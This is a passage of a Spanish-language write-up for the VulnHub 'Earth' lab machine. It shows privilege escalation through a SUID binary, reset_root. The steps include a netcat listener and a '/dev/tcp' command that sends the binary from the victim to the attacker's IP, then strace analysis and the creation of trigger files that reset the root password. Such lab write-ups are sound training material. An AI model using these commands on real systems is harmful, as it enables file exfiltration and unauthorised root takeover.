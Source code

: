 ![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/earth/24.png){: .align-center}

Al intentar hacer un `cat` al archivo este será ilegible

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/earth/25.png){: .align-center}

Por esto será necesario mandar el archivo al equipo atacante para poder revisarlo.

Primero se pondrá un puerto en escucha esperando por la información del archivo y que lo guardará en el equipo:
```bash
nc -nlvp 9002 > reset_root
```

Luego mandar el archivo:
```bash
cat /usr/bin/reset_root > /dev/tcp/192.168.122.13/9002
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/earth/26.png){: .align-center}

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/earth/27.png){: .align-center}

Se recibirá correctamente y el `nc` se cerrará

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/earth/28.png){: .align-center}

Dar permisos de ejecución al archivo `reset_root`

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/earth/29.png){: .align-center}

Asegurar que se tiene instalado `strace`, sino instalarlo
```bash
sudo apt install –y strace
```

Comprobar el contenido del archivo `reset_root`
```bash
strace -f ./reset_root
```

Entre todo el contenido mostrará unas líneas que comprueban si existen unos archivos, de existir entonces el script cambia la contraseña del usuario root.

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/earth/30.png){: .align-center}

Crear los archivos en el equipo víctima
```bash
touch /dev/shm/kHgTFI5G /dev/shm/Zw7bV9U5 /tmp/kcM0Wewe
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/earth/31.png){: .align-center}

Ejecutar de nuevo el archivo `reset_root`
```bash
/usr/bin/reset_root
```
